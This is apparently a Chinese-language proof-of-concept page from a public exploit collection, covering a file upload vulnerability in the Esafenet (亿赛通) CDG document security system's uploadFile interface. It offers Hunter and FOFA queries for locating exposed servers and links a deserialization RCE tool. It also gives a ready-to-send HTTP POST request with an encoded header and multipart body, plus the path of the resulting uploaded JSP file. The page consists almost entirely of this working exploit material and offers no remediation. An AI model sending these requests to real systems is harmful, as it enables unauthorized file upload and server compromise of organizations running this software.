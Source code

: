 ## 亿赛通电子文档uploadFile接口文件上传漏洞


## Hunter语法：
```
web.icon=="9fd216c3e694850445607451fe3b3568"
```
## fofa
```
app="亿赛通-电子文档安全管理系统"
```

## 工具
```
https://github.com/0xf4n9x/CDGXStreamDeserRCE
```
将head 中的Content 解密
![image](https://github.com/wy876/POC/assets/139549762/365c3394-4f8e-43aa-9fac-d12e069ca53a)


## poc
```
POST /file/uploadFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 143
Content: MGIFOACOKLJAHOGCPPOBDFLGJFPACJJKLFGFOBDNHAGLEDGALNKAEHDLMEOODCBFDIMEFNGHCMGBPABDLPPCHCLMAELIDDCLOGNPOCGHIEFJHIOEIIPPJBCIFCPDOKIOMKPPDGPHCALHOJNNBLJBHGLMPBFICDGGMMOLGLGMIHOOFLHLBEHNIHOPOEKKIPHCMJAOMGMNPFINKHMPBFOJBJPNLNKILIOCLAEPIKJDNOJHELELCOLLAKKAPFFPFGPMOLGPBDAHIHKEFDIFPDMDKDDKNMOGMLDEMBEAMFOOCECFKCKHJBDDMIENNFFMABEFNKCCIAIJIKGDAOGCDMNCNEGOGBNJIJFBBEBODAPNLOFJMOGCJGMOCHNJALDDDKLPGM
Content-Type: multipart/form-data; boundary=0ac445a70ef9526aeb69efb4569810d6
Accept-Encoding: gzip, deflate, br
Connection: close

--0ac445a70ef9526aeb69efb4569810d6
Content-Disposition: form-data; name="file"; filename="file"

123
--0ac445a70ef9526aeb69efb4569810d6--
```

![image](https://github.com/wy876/POC/assets/139549762/96ae7af1-6607-45de-856e-6c248a8791f6)

文件上传地址
http://ip:/CDGServer3/3g/X.jsp

